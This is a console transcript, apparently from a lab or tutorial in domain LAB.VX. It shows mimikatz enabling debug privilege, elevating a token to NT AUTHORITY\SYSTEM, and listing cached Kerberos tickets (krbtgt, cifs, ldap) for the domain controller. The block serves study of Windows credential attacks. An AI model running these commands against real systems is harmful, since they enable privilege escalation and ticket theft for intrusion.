 ```console
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # token::elevate
Token Id  : 0
User name :
SID name  : NT AUTHORITY\SYSTEM

848     {0;000003e7} 0 D 20011          NT AUTHORITY\SYSTEM     S-1-5-18        (04g,31p)       Primary
 -> Impersonated !
 * Process Token : {0;004e2d49} 2 F 6986530     LAB\mike        S-1-5-21-1470288461-3401294743-676794760-1105   (15g,24p)       Primary
 * Thread Token  : {0;000003e7} 0 D 7103754     NT AUTHORITY\SYSTEM     S-1-5-18        (04g,31p)       Impersonation (Delegation)

mimikatz # kerberos::list

[00000000] - 0x00000012 - aes256_hmac
   Start/End/MaxRenew: 4/16/2022 9:09:49 AM ; 4/16/2022 7:09:49 PM ; 4/23/2022 9:09:49 AM
   Server Name       : krbtgt/LAB.VX @ LAB.VX
   Client Name       : client$ @ LAB.VX
   Flags 60a10000    : name_canonicalize ; pre_authent ; renewable ; forwarded ; forwardable ;

[00000001] - 0x00000012 - aes256_hmac
   Start/End/MaxRenew: 4/16/2022 9:09:49 AM ; 4/16/2022 7:09:49 PM ; 4/23/2022 9:09:49 AM
   Server Name       : krbtgt/LAB.VX @ LAB.VX
   Client Name       : client$ @ LAB.VX
   Flags 40e10000    : name_canonicalize ; pre_authent ; initial ; renewable ; forwardable ;

[00000002] - 0x00000012 - aes256_hmac
   Start/End/MaxRenew: 4/16/2022 9:15:59 AM ; 4/16/2022 7:09:49 PM ; 4/23/2022 9:09:49 AM
   Server Name       : cifs/DC.lab.vx @ LAB.VX
   Client Name       : client$ @ LAB.VX
   Flags 40a50000    : name_canonicalize ; ok_as_delegate ; pre_authent ; renewable ; forwardable ;

[00000003] - 0x00000012 - aes256_hmac
   Start/End/MaxRenew: 4/16/2022 9:09:49 AM ; 4/16/2022 7:09:49 PM ; 4/23/2022 9:09:49 AM
   Server Name       : cifs/DC.lab.vx/lab.vx @ LAB.VX
   Client Name       : client$ @ LAB.VX
   Flags 40a50000    : name_canonicalize ; ok_as_delegate ; pre_authent ; renewable ; forwardable ;

[00000004] - 0x00000012 - aes256_hmac
   Start/End/MaxRenew: 4/16/2022 9:09:49 AM ; 4/16/2022 7:09:49 PM ; 4/23/2022 9:09:49 AM
   Server Name       : CLIENT$ @ LAB.VX
   Client Name       : client$ @ LAB.VX
   Flags 40a10000    : name_canonicalize ; pre_authent ; renewable ; forwardable ;

[00000005] - 0x00000012 - aes256_hmac
   Start/End/MaxRenew: 4/16/2022 9:09:49 AM ; 4/16/2022 7:09:49 PM ; 4/23/2022 9:09:49 AM
   Server Name       : ldap/DC.lab.vx @ LAB.VX
   Client Name       : client$ @ LAB.VX
   Flags 40a50000    : name_canonicalize ; ok_as_delegate ; pre_authent ; renewable ; forwardable ;

[00000006] - 0x00000012 - aes256_hmac
   Start/End/MaxRenew: 4/16/2022 9:09:49 AM ; 4/16/2022 7:09:49 PM ; 4/23/2022 9:09:49 AM
   Server Name       : LDAP/DC.lab.vx/lab.vx @ LAB.VX
   Client Name       : client$ @ LAB.VX
   Flags 40a50000    : name_canonicalize ; ok_as_delegate ; pre_authent ; renewable ; forwardable ;
```
